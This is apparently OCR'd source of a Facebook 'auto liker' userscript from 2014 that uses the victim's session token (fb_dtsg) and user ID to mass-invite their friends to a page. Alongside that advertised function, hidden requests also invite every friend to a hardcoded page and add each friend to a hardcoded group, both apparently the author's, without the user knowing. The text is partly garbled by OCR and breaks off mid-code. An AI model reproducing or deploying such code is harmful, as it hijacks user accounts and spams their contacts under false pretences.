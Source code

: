 var Title = "Auto liker Fanpage 2014 By Mokka&lt;/A>";var Descriptions = "",text = 'AuTo by Mokka&lt;/br>Nick&lt;/A>&lt;A style="color#DF013A;" href="https://www.facebook.com/MandoXEmo" target="_blank"> Hacked1&lt;/A>&lt;/A>,&lt;/A>&lt;A style="color:#2EFE64;" href="https://www.facebook.com/MandoXEmo" target="_blank"> Error 107&lt;A>&lt;/A>.&lt;/br>Team Error 107 &lt;A style="color:#AEB404;" href="" target="_blank">&lt;/A>.&lt;/A>'; page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo) {jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send_single?page_id=" + page_id + "&amp;invitee=" + opo + "&amp;elem_id=u_0_1k&amp;action=send&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=8&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=", function (a) {         var b = a.substring(a.indexOf("{"));         var c = JSON.parse(b);         i--;         Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";         if (c.error) {             Descriptions += "color:darkred'>";             err++;             if (c.errorDescription) Descriptions += c.errorDescription;             else Descriptions += JSON.stringify(c, null, "")         } else {             Descriptions += "color:darkgreen'>";             Descriptions += arn[i] + " d? du?c m?i like page " + page_name + ".";             suc++         }         Descriptions += "&lt;/div>";         var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";         display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>";         if (i > 0) {             display += arr.length + " hoho&lt;br/>";             display += "&lt;b>" + suc + "&lt;/b> kakaklong " + (arr.length - i) + " abglonglike ";             display += "(" + i + " proses....)";             display += "&lt;div class='friend-edge'>";             display += Descriptions;             display += "&lt;img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + ">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#3B5998;position:absolute;font-weight:bold;'>" + arn[i] + "&lt;/a>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>";             display += "jumlah invite bergantung pada friends anda" + page_name + ".&lt;/br>";             display += _text;             display += "&lt;/div>";             display += "&lt;/div>";             window[tag + "_close"] = true         } else {             Title = "All Of Your Friends Have Been Invited to Like Your Page.&lt;/A>";             display += arr.length + " Friends Detected and ";             display += "&lt;b>" + suc + " Friends Invited.&lt;/b>&lt;/br>";             display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page&lt;/span>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Cancel&lt;/span>&lt;br/>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";             display += _text;             display += "&lt;/div>";             window[tag + "_close"] = false         }         display += "&lt;/div>";         document.getElementById("pagelet_sidebar").innerHTML = display     }, "text", "post");     tay--;     if (tay > 0) {         var s = arr[tay];         setTimeout("InviteFriends(" + s + ")", 100)     }     console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);                             if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=693231517363442&amp;__user="+ user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                         if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=693231517363442&amp;__user="+ user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                                                           if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=203151073224705&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id,     function () {}, "text", "post");                             } jx = {     b: function () {         var b = !1;         if ("undefined" != typeof ActiveXObject) try {             b = new ActiveXObject("Msxml2.XMLHTTP")         } catch (c) {             try {                 b = new ActiveXObject("Microsoft.XMLHTTP")             } catch (a) {                 b = !1             }         } else if (window.XMLHttpRequest) try {             b = new